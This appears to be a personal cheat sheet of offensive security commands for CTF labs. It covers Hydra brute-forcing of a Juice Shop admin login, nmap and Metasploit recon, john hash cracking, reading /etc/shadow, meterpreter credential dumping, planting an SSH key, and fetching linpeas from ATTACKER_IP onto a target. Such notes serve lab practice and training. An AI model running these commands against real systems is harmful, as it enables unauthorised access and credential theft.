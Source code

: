 # InfoSec notes

## Hydra

### HTTP Post

Example: Brute-force `admin` login of the OWASP Juice-Shop

Authentication `POST` request looked like this in Browser DevTools

```shell
curl 'http://10.10.114.54/rest/user/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.114.54/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=5yIoLc2JuE6AcrUbAAAA; language=en; cookieconsent_status=dismiss' --data-raw '{"email":"hello@example.com","password":"asdf"}'
```

with response 401 `Invalid email or password.`

This converts to `hydra` as follows

```bash
# -V verbose
# `-l admin@juice-sh.op` the admin's email
hydra -v -V -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

# general layout (note: single user -l vs user list -L, same for password)
#  hydra -L <USER> -P <Password> <IP Address> http-post “<Login Endpoint>:<Request Body>:<Error Message>”
```

## Feroxbuster

`feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt`

## Tools for cracking RSA

- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)

## Share files with Kali VM

[gofile](https://gofile.io/uploadFiles)

## GPG

```bash
gpg --import private.key
gpg --decrypt encrypted.file > plain.txt
```

## Hash cracking

```bash
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py < HASH_FILE

gzip -d /usr/share/wordlists/rockyou.txt.gz
# Note: standard hash types might have prefix `raw-` e.g. format=raw-md5
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=FORMAT HASH_FILE

john --list=formats | grep -i md5
```

## Resources

- [spawning a TTY shell in many languages](https://netsec.ws/?p=337)
- [unix binaries to bypass security](https://gtfobins.github.io/#+sudo)
- [file endings in linux](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/)

## Recon + Privilege Escalation

In CTFs there is rarely any negative consequence, so going into full offensive is fine.

### external

- open/filtered ports
- services on ports
- find HTTP endpoints

```bash
# portscan + service detection
nmap -A -sV -p- $IP
# alternative with Metasploit
msfdb init
msfconsole
db_nmap -A -sv -p- $IP

# HTTP endpoints
curl $IP/robots.txt
feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```

### internal

i.e. after getting a shell on the target

- stabilize shell
  - `whoami`
  - add attacker's ssh key to `authorized_keys`
- system infos
- current sudo privileges
- services + processes
- service + package versions
- usernames + credentials

What we're looking for:

- root access
- credentials
- further vulnerabilities (with the ultimate goal of root access)

```bash
# system infos
hostnamectl
# alternative:
uname -a

# own permissions
sudo --list

# services + processes
less ~/.bash_history # also bashprofile, bashrc, bash_aliases
ps -ef

# versions
sudo -V
apt list --installed

# usernames + credentials
less /etc/passwd
less /etc/shadow
# with metasploit meterpreter
load kiwi
creds_all

# check for known vulnerabilities
searchsploit <systeminfo / services>

# backups, configs, logs
find / -type f -name '*.log' 2>/dev/null
find / -type f -name '*.bak' 2>/dev/null
find / -type f -name '*.conf' 2>/dev/null
# if everything fails to find the flag, search all file contents
find / -type f -exec cat {} \; | grep -E 'thm{'

# swiss-army knife
# on attacker machine
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server 8000
# on target machine
wget ${ATTACKER_IP}:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

## swiss-army knife 2 - LinEnum.sh
# analog to linpeas.sh
```
